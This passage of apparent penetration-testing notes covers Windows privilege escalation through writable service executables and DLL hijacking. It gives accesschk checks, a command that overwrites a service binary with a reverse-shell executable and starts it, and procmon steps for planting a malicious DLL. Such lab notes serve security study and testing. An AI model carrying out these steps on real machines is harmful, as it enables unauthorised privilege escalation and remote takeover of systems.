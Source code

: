 Now just start the service again and await reverse shell.

4. Insecure Executables

If original executable is writeable than it can be replaced with malicious file to obtain shell.

Detection in winpeas: `File Permissions: Everyone [AllAccess]`

```powershell
# confirm with accesschk

.\accesschk.exe /accepteula -quvw "C:\Program Files\File Permissions Service\filepermservice.exe"

C:\Program Files\File Permissions Service\filepermservice.exe
  Medium Mandatory Level (Default) [No-Write-Up]
  RW Everyone # everyone can access this file and RW on it
	FILE_ALL_ACCESS 
  RW NT AUTHORITY\SYSTEM
	FILE_ALL_ACCESS
  RW BUILTIN\Administrators
	FILE_ALL_ACCESS
  RW P1\Pentester
	FILE_ALL_ACCESS
  RW BUILTIN\Users
	FILE_ALL_ACCESS

```

Let's back it up and the overwrite with shell file.

`copy rev4444.exe "C:\Program Files\File Permissions Service\filepermservice.exe"`

Now start malicous executable via service `net start filepermsvc`

5. DLL Hijacking

If service-DLL in absolute path is writeable, it can be overwritten with malicious payload.

More common: DLL is missing, so malicious payload can be added into the writable folder to cause havoc.

* Find possible vulnerable service

Use winpeas output to see non-windows services.

Pick some service that can be started and stoped: use accesschk
`.\accesschk.exe /accepteula -ucqv <user> <service>`

If service can be maunally started and stoped, pick the executable from that service and copy it to other windows machine for analysis

* create service and assign the copied executable to it on the analysis machine (if not existent)
* start procmon for analysis
* stop and clear current capture in top panel
* add filter on process name equal to copied exe `Process Name is `
* remove network and registry activities
* start capture
* start the service
* identify where is the missing dll `NAME NOT FOUND`
* create malicious DLL binary and place in writeable directory
* Enjoy reverse shell
